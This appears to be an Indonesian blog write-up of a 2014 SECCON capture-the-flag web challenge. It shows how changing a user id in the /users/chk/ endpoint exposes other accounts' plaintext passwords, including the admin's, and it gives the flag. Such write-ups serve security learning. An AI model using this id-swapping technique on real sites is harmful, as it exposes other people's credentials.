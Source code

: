 ```yaml
---
id: 408
title: REA-JUU WATCH Seccon CTF Web 200pts
date: 2014-12-09T09:38:02+00:00
author: abdilahrf
layout: post
guid: http://www.hasnydes.us/?p=408
permalink: /2014/12/rea-juu-watch-seccon-ctf-web-200pts/
factory_shortcodes_assets:
  - 'a:0:{}'
categories:
  - seccon
---
```

<span style="color: #ffffff;"><strong>REA-JUU</strong> <strong>WATCH</strong> <strong>Seccon</strong> <strong>CTF</strong></span>

### REA-JUU WATCH Seccon CTF Web 200pts

> <http://reajuu.pwn.seccon.jp/>

kunci dari menyelesaikan soal ini ada di source codenya , untuk menyelesaikannya kita login dulu dengan user yang di dapatkan dari create new account . selesaikan sampai mendapatkan point , pilihannya bebas

[<img class="aligncenter wp-image-409" src="http://www.hasnydes.us/wp-content/uploads/2014/12/Untitled-1024x332.png" alt="Untitled" width="700" height="227" />](http://www.hasnydes.us/wp-content/uploads/2014/12/Untitled.png)

&nbsp;

kalau sudah sampai bagian itu kemudian view source , kemudian kita dapat fungsi yang menarik<!--more-->

<pre><code class="language-javascript">&lt;script&gt;
function finishpoint(){
	$.getJSON("/users/chk/2138", null, function(data){
		point = data.point;
		$("#finishpoint").text("Your score is " + point + "point!");
	});
}
&lt;/script&gt;</code></pre>

parameter _/users/chk/2138  _di gunakan untuk mendapatkan score si user dengan id 2138

coba kita buka parameternya melalui url

> {&#8220;username&#8221;:&#8221;qk198nv9&#8243;,&#8221;password&#8221;:&#8221;3ebdosx2&#8243;,&#8221;point&#8221;:-31}

hasilnya muncul username , password dan point kita untuk mendapatkan admin yang di id=1 _/users/chk/1_

> {&#8220;username&#8221;:&#8221;rea-juu&#8221;,&#8221;password&#8221;:&#8221;way\_t0\_f1ag&#8221;,&#8221;point&#8221;:99999}

nah kita dapat username dan password adminnya , kita coba bermain sampai selesai lagi dengan id tersebut dan liat point nya

[<img class="aligncenter wp-image-410" src="http://www.hasnydes.us/wp-content/uploads/2014/12/Untitled1.png" alt="Untitled" width="828" height="197" />](http://www.hasnydes.us/wp-content/uploads/2014/12/Untitled1.png)

&nbsp;

> Flag : SECCON{REA\_JUU\_Ji8A_NYAN}